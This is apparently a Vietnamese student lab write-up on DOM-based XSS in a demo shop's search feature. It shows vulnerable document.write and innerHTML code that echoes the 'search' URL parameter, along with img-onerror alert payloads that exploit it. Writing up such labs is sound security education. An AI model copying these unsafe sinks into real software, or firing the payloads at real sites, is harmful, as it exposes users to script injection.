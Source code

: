 - Trang web cho chức năng show và tìm sản phẩn trong ô search

## VỚI document.write()

![alt text](image.png)

- Hàm dính lỗi DOM based XSS
<script>
                        function trackSearch(query) {
                            document.write('<img src="https://images.unsplash.com/'+query+'">');
                        }
                        var query = (new URLSearchParams(window.location.search)).get('search');
                        if(query) {
                            trackSearch(query);
                        }
                    </script>

- khi submit form get khi search nếu thì sẽ hiển thị hết quả với ảnh bằng lệnh document.write
 <form action="index.php" method="get" class="flex items-center" id="store-nav-content">

                        <input type="text" class="p-4 bg-gray-200 rounded-xl" name = "search" placeholder="Search for items"/>

                        <button type="submit" class="pl-3 inline-block no-underline hover:text-black">
                            <svg class="fill-current hover:text-black" xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24">
                                <path d="M10,18c1.846,0,3.543-0.635,4.897-1.688l4.396,4.396l1.414-1.414l-4.396-4.396C17.365,13.543,18,11.846,18,10 c0-4.411-3.589-8-8-8s-8,3.589-8,8S5.589,18,10,18z M10,4c3.309,0,6,2.691,6,6s-2.691,6-6,6s-6-2.691-6-6S6.691,4,10,4z" />
                            </svg>
                        </button>

                    </form>

- Em sẽ lợi dụng giá trị này để tạo cuộc tấn công DOM based XSS
payload:                              aaaaa"><img src=1 onerror=alert(1)>

- Lúc này khi document.write sẽ tạo ra:   <img src="https://images.unsplash.com/aaaaa><img src=1 onerror=alert(1)>

![alt text](image-2.png)




- Kết quả em nhận được là
 ![alt text](image-1.png)



## Với innerHTML

- Tương tự như trường hợp trên nhưng mà trường hợp này sử dụng inner HTML để hiển thị nội dung
<script>
                            function doSearchQuery(query) {
                                document.getElementById('searchMessage').innerHTML = query;
                            }
                            var query = (new URLSearchParams(window.location.search)).get('search');
                            if(query) {
                                doSearchQuery(query);
                            }
                        </script>

- và thẻ <span id="searchMessage"></span> khi thực hiện tìm kiếm thì sẽ lấy giá trị tìm kiếm hiển thị ra

payload : aaaaa<img src=1 onerror=alert(1)> thì được kết quả
![alt text](image-3.png)
- Và chúng ta đã XSS thành công ạ